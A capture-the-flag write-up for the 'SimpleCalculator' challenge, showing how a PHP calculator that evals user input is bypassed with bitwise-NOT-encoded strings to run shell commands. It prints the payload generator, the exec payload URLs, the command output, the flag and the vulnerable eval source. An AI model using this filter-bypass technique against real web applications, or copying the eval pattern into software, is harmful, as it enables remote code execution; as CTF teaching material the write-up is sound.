 ## SimpleCalculator

#### Solved by Fluoxetine

```
Some restriction should prevent this simple calculator from being hacked. Right?

61.28.237.24 30101

authors: d0r4, Em0n
```

We are given a web form that allows us to input values and operations to a calculator and the results will be printed.

Some quick experiments reveal that we can not use neither letters nor quotes. The input must also be shorter than 20 characters.

It’s highly likely that the server is doing some sort of `eval` to perform the calculation. We can exploit it to run functions like `exec("ls")`, but we first need to figure out some way to pass strings.

The trick here is to use the bitwise NOT operator. When PHP encounters `~` and a string, it will invert that string. Therefore, we can invert our string, passing it to the calculator along with `~`, and PHP will invert back to the original string :)

Sample payload for `exec("ls -l >a")`: `(~%9A%87%9A%9C)(~%93%8C%DF%D2%93%DF%C1%9E)`

We need to put the string in bracket to make PHP treat it as string. We don't need any quotes because PHP treats unknown constants as strings (e.g. `echo aabbccdd` will print out `aabbccdd` if `aabbccdd` has not been defined as a constant).

Now it's just the matter of choosing which commands to run. The command has the maximum length of 10.

```php
<?php
echo "(~" . urlencode(~"exec") . ")(~" . urlencode(~"ls -l >a") . ")" . "\n";  // (~%9A%87%9A%9C)(~%93%8C%DF%D2%93%DF%C1%9E)
echo "(~" . urlencode(~"exec") . ")(~" . urlencode(~"ls -l />a") . ")" . "\n"; // (~%9A%87%9A%9C)(~%93%8C%DF%D2%93%DF%D0%C1%9E)
echo "(~" . urlencode(~"exec") . ")(~" . urlencode(~"cat /f*>a") . ")" . "\n"; // (~%9A%87%9A%9C)(~%9C%9E%8B%DF%D0%99%D5%C1%9E)
echo "(~" . urlencode(~"exec") . ")(~" . urlencode(~"rm a") . ")" . "\n";      // (~%9A%87%9A%9C)(~%8D%92%DF%9E)
?>
```

Run the payload like this: `http://61.28.237.24:30101/?equation=(~%9A%87%9A%9C)(~%93%8C%DF%D2%93%DF%C1%9E)`

Read `a`: `http://61.28.237.24:30101/a`

Output of `ls -l >a`:

```
total 4
-rw-r--r--. 1 www-data www-data   0 May 24 01:39 a
-rwxrw-r--. 1 www-data root     856 May 18 11:52 index.php
drwxr-xr-x. 1 www-data root      23 May 18 11:52 static
```

Output of `ls -l />a`:

```
total 4
drwxr-xr-x.   1 root root  28 May 12 12:48 bin
drwxr-xr-x.   2 root root   6 Mar 19 23:44 boot
drwxr-xr-x.   5 root root 360 May 23 13:13 dev
drwxr-xr-x.   1 root root  66 May 23 13:13 etc
-rwxrw-r--.   1 root root  25 May 18 11:52 fl4ggggH3reeeeeeeeeee
drwxr-xr-x.   2 root root   6 Mar 19 23:44 home
drwxr-xr-x.   1 root root  21 May 12 12:48 lib
drwxr-xr-x.   2 root root  34 May 11 00:00 lib64
drwxr-xr-x.   2 root root   6 May 11 00:00 media
drwxr-xr-x.   2 root root   6 May 11 00:00 mnt
drwxr-xr-x.   2 root root   6 May 11 00:00 opt
dr-xr-xr-x. 570 root root   0 May 23 13:13 proc
drwx------.   1 root root   6 May 12 13:41 root
drwxr-xr-x.   1 root root  36 May 23 13:13 run
drwxr-xr-x.   1 root root  20 May 12 12:48 sbin
drwxr-xr-x.   2 root root   6 May 11 00:00 srv
dr-xr-xr-x.  13 root root   0 May 11 11:41 sys
drwxrwxrwt.   1 root root   6 May 12 13:41 tmp
drwxr-xr-x.   1 root root  19 May 11 00:00 usr
drwxr-xr-x.   1 root root  17 May 12 12:43 var
```

Output of `cat /f*>a`:

```
HCMUS-CTF{d4ngErous_eVal}
```

For the sake of fun, we can also dump `index.php`:

```php
<?php
echo "(~" . urlencode(~"exec") . ")(~" . urlencode(~"cat i*>a") . ")" . "\n"; // (~%9A%87%9A%9C)(~%9C%9E%8B%DF%96%D5%C1%9E)
echo "(~" . urlencode(~"exec") . ")(~" . urlencode(~"rm a") . ")" . "\n";     // (~%9A%87%9A%9C)(~%8D%92%DF%9E)
?>
```

```php
<?php

    $html = '   <form>
        <label for="equation">Equation: </label>
            <input name="equation" value="13*37">
        <input type="submit">
    </form>
';
    if (isset($_GET["equation"])) {
        $formula = $_GET["equation"];
        if (preg_match_all('/[a-z\'"`]+/i', $formula)) {
            echo "<video controls autoplay><source src='static/video.mp4' type='video/mp4'></video>";
            echo "<h1>Are you trying to hack me? Alphabetic character and quote is not allowed here</h1>";
        }
        else if (strlen($formula) >= 20) {
            echo "<h1>This is just a simple calculator, not WolframAlpha, try a shorter equation</h1>";
        }
        else
        {
            eval('$res = ' . $formula . ';');
            echo isset($res) ? $res : '?';
        }
    }
    else
        echo $html;
?>
```

Flag: `HCMUS-CTF{d4ngErous_eVal}`
